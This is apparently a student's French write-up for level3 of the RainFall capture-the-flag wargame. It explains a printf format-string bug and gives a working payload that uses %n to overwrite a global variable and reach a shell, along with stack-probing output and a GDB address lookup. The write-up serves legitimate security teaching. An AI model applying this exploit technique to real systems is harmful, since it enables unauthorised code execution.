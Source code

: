 # Soluce

```
(python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")'; cat) | ./level3
```

## Description du code

-   Un printf est appeler sans etre formatter
-   il y a une condition si vrai qui execute un shell

## Explication de l'exploit

On voit dans le code source qu'un printf est appelé sans formater le buffer et l'utilise directement comme argument. 
Cela va nous permettre de réaliser un exploit de formatage avec printf :

En mettant dans notre buffer des spécificateurs tels que %s, %p, %d... 
On va les faire interpréter par printf pour pouvoir afficher les éléments dans la stack au moment où l'on rentre dans printf. 
Utilisons donc une méthode de padding pour afficher à quelle position est notre chaîne :

```
level3@RainFall:~$ python -c 'print("AAAA" + " %p " * 8)' | ./level3 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x20702520 0x20702520 0x20702520 
```

On remarque que l'adresse 0x41414141 à la quatrième place est l'équivalent de AAAA mais en hexadécimal, donc notre chaîne est à la quatrième position dans la stack.
On va utiliser deux spécificateurs de printf pour cet exploit : le premier %n qui va nous permettre de stocker le nombre de caractères qui ont été imprimés par printf jusque-là, et le %x qui,
avec une largeur, va nous permettre de compléter notre chaîne par le nombre d'éléments dont on a besoin.

Afin d'entrer dans la condition qui lance /bin/sh, on a besoin de connaître l'adresse de m. Il est possible de la récupérer avec Ghidra ou GDB :

```
level3@RainFall:~$ gdb ./level3 
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c
```

Pour que m soit égal à 0x40, on doit stocker le chiffre 64 dedans car 64 = 0x40 en hexadécimal.

Donc l'adresse de M = 4 + %60x (padding)

## Payload

[Adresse de m] + [Padding de 60] + [Argument sur lequel on veut ecrire]

